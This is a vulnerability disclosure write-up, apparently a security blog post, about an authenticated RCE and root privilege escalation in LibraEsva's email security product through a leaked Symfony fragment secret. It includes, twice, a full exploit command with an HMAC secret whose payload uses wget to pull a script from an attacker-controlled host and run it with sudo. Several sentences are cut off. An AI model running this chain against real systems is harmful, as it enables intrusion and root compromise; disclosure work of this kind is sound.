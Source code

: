 ```yaml
---
title: LibraEsva's Email Security Authenticated root shell
excert: An underling bug in Symfony brings to an RCE in famous email security manager
tags:
 - CVE
 - LibraEsva
 - RCE
 - Shellcode
 - Web
 - Walkthrough
category:
 - research
toc: true
classes: single
---
```



TL;DR Based upon Symfony framework, the LibraESVA's [__FragmentListener__][1] class exposed with well-know secret permit to achive a root shell trougth a chain of autenticated RCE and privilegs escalation.

Let's dive in:

## LibraEsva

The company LibraESVA proposes different solution for managin email ecosystem. From Email Security program to Load Balacer solution.
Basicly those products are suite for managing emails, ranging from user managment to built-in security fetures like anti-virus scan and phishin prevention mechanism.

## Symfony RCE

Thanks to the [excellent work by Ambionic Security][2] on the Symfony Framework, it was possibile to focus my research on the __FragmentListener__ class.
Quoting from their blog,  
```
Essentially, when someone issues a request to /_fragment, this listener sets request attributes from given GET parameters. Since this allows to run arbitrary PHP code (more on this later), the request has to be signed using a HMAC value. This HMAC's secret cryptographic key is stored under a Symfony configuration value named secret.
```

Obviously we need to find this __secret__. Lukly this was a trivial task, as the Symphony's well documented docs gives instruction where to find this value.
Located within the __/xxx/yyy/zzz.conf__ file, t

## RCE

Using the previus mentioned technique, it was possible to remotly execute command on the machine. This was achived using the the [Ambionic's Symfony Exploit][3] found on their GitHub page.
Building the command as following:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
``` 

## Privilage Escalation

Located in /tmp there is a script file which is either writable and suid's settable. 
The __/tmp/upgradescript__ 

The complete command to trigger the chain is:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
```

## Final thoughts 

It is very important to run periodic vulnerability assesment and complete penetration testing on you own produtcs, which seems that LibraEsva haven't done.
Nonless they were very quick in triagin and fixing the bug.

## Disclosure Timeline
18-03-2021 LibraEsva's developers team informed about the vuln
07-04-2021 Fix released with produtc version 4.9.5
27-07-2021 Public release

---
[1]: https://github.com/symfony/symfony/blob/5.1/src/Symfony/Component/HttpKernel/EventListener/FragmentListener.php
[2]: https://www.ambionics.io/blog/symfony-secret-fragment
[3]: https://github.com/ambionics/symfony-exploits



